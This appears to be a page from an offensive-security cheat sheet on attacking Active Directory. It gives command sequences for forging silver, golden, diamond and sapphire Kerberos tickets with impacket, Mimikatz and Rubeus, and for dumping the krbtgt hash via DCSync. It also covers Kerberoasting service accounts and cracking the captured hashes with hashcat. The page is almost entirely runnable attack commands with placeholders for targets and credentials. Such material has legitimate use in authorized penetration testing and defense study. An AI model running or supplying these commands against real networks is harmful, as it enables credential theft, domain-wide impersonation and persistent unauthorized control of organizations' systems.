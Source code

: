 ## Active Directory Persistence

### Silver Ticket
```bash
# Get Domain SID
impacket-lookupsid.py 'DOMAIN/USER:PASS@TargetIP'

# Remotely
impacket-ticketer.py -nthash <nt hash of computer account> -domain-sid <domain sid> -domain Domain.Local -sp domain/user USER
```

### Golden Ticket

#### Mimikatz
```mimikatz=
privilege::debug

lsadump::dcsync /user:krbtgt /domain:<domain>

kerberos::golden /krbtgt:<ntlm of krbtgt> /id:500 /sid:<sid> /user:<user to impersonate> /ptt
```

#### Remote
```bash
impacket-secretsdump.py --just-dc-ntlm 'DOMAIN/USER:PASS@TargetIP'
impacket-lookupsid.py 'DOMAIN/USER:PASS@TargetIP'
impacket-ticketer.py -nthashes <ntlm> -domain-sid <domain sid> -domain <user>
```

### Diamond Ticket
```powershell
Get-DomainUser -Properties objectsid -Identity <user>

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<user> /ticketuserid:<user RID> /groups:512
```

### Sapphire Ticket
```bash
impacket-ticketer.py -request -impersonate 'DomainAdmin' -domain 'DOMAIN.LOCAL' -user 'USER' -password 'PASS' -aesKey 'krbtgt/service AES key' -domain-sid <domain sid> 'EVIL USER'
```

## Active Directory Priv Esc
### Kerberoasting
```bash
# save output to script file for later
script -a kerberoast1.txt

# run to get hashes
impacket-GetUserSPNs -request -outputfile kerberoast1.txt -dc-ip DCIP 'DOMAIN.INTERNAL/USER:PASS'

# exit script in multiple ways
exit
^D

# Locally with Rubeus
.\Rubeus.exe kerberoast

# Crack Hashes
hashcat -m 13100 kerberoast1.txt rockyou.txt -o kerberoast1-cracked.txt -r rule.rule --session kerb1
```